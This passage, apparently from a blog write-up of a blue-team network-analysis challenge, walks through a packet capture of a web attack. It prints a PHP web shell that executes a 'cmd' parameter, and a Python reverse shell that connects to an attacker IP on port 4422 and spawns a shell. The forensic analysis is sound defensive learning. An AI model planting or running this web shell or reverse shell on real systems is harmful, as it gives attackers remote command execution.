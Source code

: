 `cmd` it is.

Alternatively, we can see the content of the web shell itself, as it was uploaded over HTTP (i.e. unencrypted). If we follow the stream (right click the `POST /upload.php HTTP/1.1 (application/x-php)` packet, then Follow → TCP Stream), we can see the web shell consists of:

```php
<?php
if(isset($_REQUEST['cmd']) ){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>
```

A nice, simple, `cmd`-based backdoor.

### What is the first command executed by the attacker?

We already have this from above - `id`.

### What is the type of shell connection the attacker obtains through command execution?

There are two common types of shell, reverse shell and bind shell.

A bind shell is when the attacker connects to the target (the target is configured to listen for an incoming connection).

A reverse shell is when the target connects to the attacker.

In this case, the shell relates to the `python` command. Putting it through CyberChef to URL decode it, then formatting it so it's easier to read, we get:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.251.96.4",4422))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

You'll need to know a little about Python and shells to fully understand this, but this is a reverse shell, that reaches out to (i.e. `connect`s to) `10.251.96.4` (i.e. the attacker's machine) on port `4422`.

The pcap logs also show traffic initiated by the target machine going to `10.251.96.4:4422`.

### What is the port he uses for the shell connection?

Again, we already have this from the previous question - `4422`.

## Comments?

Feel free to comment on my [LinkedIn post](https://www.linkedin.com/posts/jamgib_btlo-challenge-network-analysis-web-activity-6840569024884146176-Lpvq)